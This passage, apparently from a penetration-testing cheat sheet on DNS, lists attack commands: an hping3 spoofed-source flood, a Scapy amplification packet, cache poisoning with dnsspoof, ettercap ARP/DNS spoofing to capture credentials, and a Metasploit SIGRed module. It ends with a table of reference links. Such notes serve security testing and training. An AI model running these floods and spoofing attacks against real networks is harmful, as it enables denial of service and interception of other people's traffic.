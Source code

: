     ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### DNS Amplification Attack

*   **Tool:** \[\[Scapy]]

    ```python
    from scapy.all import *
    send(IP(src="<spoofed_ip>", dst="<dns_server_ip>")/UDP(dport=53)/DNS(qd=DNSQR(qname="example.com")))
    ```
* **Description:** Exploit open DNS resolvers to amplify the size of the attack, sending large responses to a target with a small initial query.

### Exploits

#### DNS Cache Poisoning

*   **Tool:** \[\[DNSSpoof]]

    ```bash
    dnsspoof -i eth0 -f hosts.txt
    ```
* **Description:** Poison the DNS cache of a resolver, causing it to return incorrect IP addresses for domain queries.

\


*   **Tool:** \[\[ettercap]]

    ```bash
    ettercap -Tq -i <interface> -P dns_spoof -M arp:remote /<target_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### CVE-2020-1350 (SIGRed)

*   **Tool:** Custom Exploit, \[\[Metasploit]]

    ```bash
    use auxiliary/scanner/dns/sigred_dos
    ```
* **Description:** Exploits a vulnerability in Microsoft DNS servers that could lead to remote code execution.

## Resources

| **Website**            | **URL**                                                                    |
| ---------------------- | -------------------------------------------------------------------------- |
| RFC 1035               | https://tools.ietf.org/html/rfc1035                                        |
| dig Manual             | https://linux.die.net/man/1/dig                                            |
| BIND Documentation     | https://www.isc.org/bind/                                                  |
| dnsrecon Documentation | https://github.com/darkoperator/dnsrecon                                   |
| iodine Documentation   | https://code.kryo.se/iodine/                                               |
| dnscat2 GitHub         | https://github.com/iagox86/dnscat2                                         |
| Scapy Documentation    | https://scapy.readthedocs.io/en/latest/                                    |